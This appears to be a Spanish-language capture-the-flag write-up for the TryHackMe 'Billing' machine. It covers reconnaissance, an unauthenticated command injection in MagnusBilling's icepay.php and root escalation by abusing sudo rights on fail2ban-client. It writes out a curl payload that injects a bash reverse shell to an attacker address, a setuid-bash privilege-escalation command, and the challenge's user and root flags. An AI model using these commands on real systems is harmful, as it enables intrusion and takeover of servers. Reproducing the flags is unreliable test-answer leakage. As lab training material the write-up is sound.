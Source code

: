 ```yaml
---
layout: default
---
```

![image](../../Imágenes%20Máquinas/BILLING.webp)


# BILLING [TRYHACKME]
### (Unauthenticated Remote Command Execution, fail2ban firewall bypass, fail2ban abuse for privilege escalation)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

# Escaneo de Nmap

```bash
nmap -p- --open -sS -sCV -T5 10.10.26.117 -n -Pn -vvv -oN nmap_scan
```

Nos encuentra 4 puertos abiertos:

- **22** (ssh)
- **80** (http)
- **3306** (MySQL)
- **5038**


![image](../zimages/Pasted_image_20250316230520.png)

Si nos metemos en la web no hay gran cosa, pero si buscamos el nombre del servicio en google añadiendo la palabra "exploit",  nos salen los siguientes resultados:

![image](../zimages/Pasted_image_20250317004012.png)

Si vemos un par de artículos, vemos que se trata de un "Unauthenticated Remote Command Execution", es decir, que vamos a poder ejecutar comandos sin tener que loguearnos. El siguiente paso es ojear como realizar esta ejecución remota de comandos. Si miramos un par de artículos, vemos el siguiente comando:

![image](../zimages/Pasted_image_20250317004702.png)

El cual usa metasploit y una shell con sh, como yo estoy acostumbrado a otros métodos, he adaptado el comando a una reverse shell con bash normal y corriente, sin necesidad de usar programas externos ni cosas raras:

```bash
curl -s 'http://10.10.26.117/mbilling/lib/icepay/icepay.php' --get --data-urlencode 'democ=;bash -c "bash -i >& /dev/tcp/[nuestra_ip]/[puerto] 0>&1";'
```


Y recibimos la shell:

![image](../zimages/Pasted_image_20250317005048.png)

Si nos vamos a `/home/magnus/user.txt` ya obtenemos la flag de user:

![image](../zimages/Pasted_image_20250317011348.png)

==user flag== -> `THM{4a6831d5f124b25eefb1e92e0f0da4ca}`

# Escalada de Privilegios

Si ponemos un `sudo -l`, vemos que podemos ejecutar como root el comando `/usr/bin/fail2ban-client`:

![image](../zimages/Pasted_image_20250317005315.png)

Si nos informamos un poco de los comandos y del funcionamiento de esta herramienta, vemos que se trata de una especie de firewall frente a intrusos que intenten acceder a la máquina o realizar ataques DDoS, bloqueando IPs cuando detecta algo raro. También he visto que hay una forma de escalar privilegios cambiando configuraciones mediante el comando `set <JAIL> action <ACT> actionban <CMD>`, el cual podemos ver en la ayuda del programa:

![image](../zimages/Pasted_image_20250317005644.png)

Lo que hay que hacer es, en primer lugar, averiguar que es el JAIL y que es el ACT en ese comando. Para ello vamos a leer un poco las instrucciones que salen por defecto cuando ejecutamos `/usr/bin/fail2ban-client`. 

JAIL lo podemos averiguar con `sudo /usr/bin/fail2ban-client status`:

![image](../zimages/Pasted_image_20250317010121.png)

Esto nos dará una lista de las JAIL disponibles, ahora para los ACT disponibles sería el comando `get [JAIL] actions`, como tenemos que utilizar un JAIL, vamos a poner el que se llama "sshd", que son las configuraciones que nos interesan, las de ssh:

![image](../zimages/Pasted_image_20250317010345.png)

Ahora que ya tenemos toda la información, podemos completar el comando de escalada de privilegios:

```bash
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "cp /bin/bash /home/magnus | chmod 4755 /home/magnus/bash"
```

He puesto ese comando ya que, al estar utilizando este programa de bloqueo de IPs, no deja establecer una reverse shell, sale automáticamente de la misma. Tampoco me ha funcionado hacer el procedimiento de crear la bash en el directorio `/tmp`, así que he decidido hacerlo en `/home/magnus`:

![image](../zimages/Pasted_image_20250317010904.png)

Ahora si ejecutamos el programa bash y le pasamos el parámetro `-p`, obtenemos una shell como root:

![image](../zimages/Pasted_image_20250317011032.png)

Por último, ejecutamos en esta nueva shell el comando `cat /root/root.txt` y ya obtendríamos la flag de root:

![image](../zimages/Pasted_image_20250317011152.png)

==root flag== -> `THM{33ad5b530e71a172648f424ec23fae60}`


# ./ROOTED

